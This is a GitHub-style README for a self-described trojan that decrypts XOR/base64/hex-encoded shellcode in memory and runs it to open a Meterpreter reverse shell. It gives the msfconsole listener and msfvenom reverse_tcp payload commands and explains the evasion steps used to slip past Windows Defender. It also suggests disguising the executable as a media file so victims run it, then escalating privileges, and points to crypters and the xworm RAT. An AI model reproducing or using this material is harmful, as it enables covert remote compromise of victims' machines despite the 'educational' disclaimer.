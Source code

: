 # Encrypted Local Process injection Trojan
Malware that creates a process and injects a shellcode that opens a reverse shell. Shellcode encrypted using xor, base64 and hexadecimal encoding, undetected by Windows defender. 
This code is for educational purposes only, do not use it for any malicious or unauthorized activity.

# 💻 Code
Simple shellcode execution technique in which the payload is decrypted, copied into memory, and executed in the same process without writing it into disk. Similar to my other trojan, [Self injection](https://github.com/Hue-Jhan/Encrypted-Trojan-Undetected), but slightly different.

### 1) Listener and payload:
First, on the attacker's machine i used a classic multi handler exploit to run the payload: 
``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```

The payload is a simple msfvenom reverse-shell shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:
``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked. Once the victim runs the exe, a new session will pop up on metasploit, where you can create a shell and work towards privilege escalation.

### 2) Encrypter:

The encryptor takes the shellcode (which in this code is just a windows message box that says xd lol) and obfuscates it using 3 layers of encryption:
- First we encode binary data into Base64, try to use a custom base64_chars set instead of the standard Base64 alphabet to obfuscate more;
- Secondly we apply XOR encryption using a single-byte key;
- Then we convert it into its hexadecimal string representation and we get the final encrypted shellcode.

### 3) Injector:

The actual injection process works like this:
- First we decode the shellcode by doing the opposite of what we did in the encrypter, make sure to use the same xor key;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Finally we create a new thread at the address of ```allocated_mem```, which contains and executes the shellcode as if it were a normal function.

Finally we wait for the created thread to finish executing before freeing the memory and the buffers.

# 🛡 AV Detection

<img align="right" src="media/hsav2.png" width="430" />

Just like my previous trojans, it's currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.
Again Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft recognizes the malware.... it should be the exact opposite but idk.

You can still make it fully undetectable by using other encrypting softwares like Soggoth or Supernova or idk, but at this point just use a much more known rat like xworm.
